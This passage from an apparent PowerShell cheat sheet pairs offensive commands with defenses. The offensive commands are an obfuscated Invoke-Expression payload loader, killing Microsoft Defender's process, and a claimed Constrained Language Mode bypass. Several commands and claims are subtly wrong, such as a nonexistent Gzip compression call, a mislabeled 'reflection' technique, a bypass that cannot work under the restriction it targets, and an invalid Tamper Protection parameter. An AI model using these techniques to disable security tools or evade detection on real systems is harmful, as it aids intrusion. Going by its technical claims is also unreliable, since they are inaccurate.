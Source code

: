 ### **7. Obfuscated Payload Delivery**  
#### **Offensive Command**  
```powershell  
# Gzip + Base64-encoded payload  
$compressed = [IO.Compression.Gzip]::Compress([Text.Encoding]::UTF8.GetBytes('malicious code'));  
$encoded = [Convert]::ToBase64String($compressed);  
Invoke-Expression ([Text.Encoding]::UTF8.GetString([IO.Compression.Gzip]::Decompress([Convert]::FromBase64String($encoded))))  
```  
- **Purpose**: Evades signature-based detection.  

#### **Defense**  
- Block script execution:  
  ```powershell  
  Set-ExecutionPolicy Restricted -Force  
  ```  

---

### **8. Disable Defender via Reflection**  
#### **Offensive Command**  
```powershell  
# Kill Defender using .NET reflection  
$defender = Get-Process -Name MsMpEng; $defender.Kill()  
```  
- **Purpose**: Terminates Defender processes.  

#### **Defense**  
- Enable **Tamper Protection**:  
  ```powershell  
  Set-MpPreference -EnableTamperProtection Enabled  
  ```  

---

### **9. Privilege Escalation (CLM Bypass)**  
#### **Offensive Command**  
```powershell  
# Escape Constrained Language Mode  
Add-Type -TypeDefinition @'  
using System;  
public class CLMBypass { public static void Main() { System.Diagnostics.Process.Start("cmd.exe"); } }  
'@  
[CLMBypass]::Main()  
```  
- **Purpose**: Bypasses PowerShell’s security modes.  

#### **Defense**  
- Enforce **Constrained Language Mode**:  
  ```powershell  
  $ExecutionContext.SessionState.LanguageMode = "ConstrainedLanguage"  
  ```  

---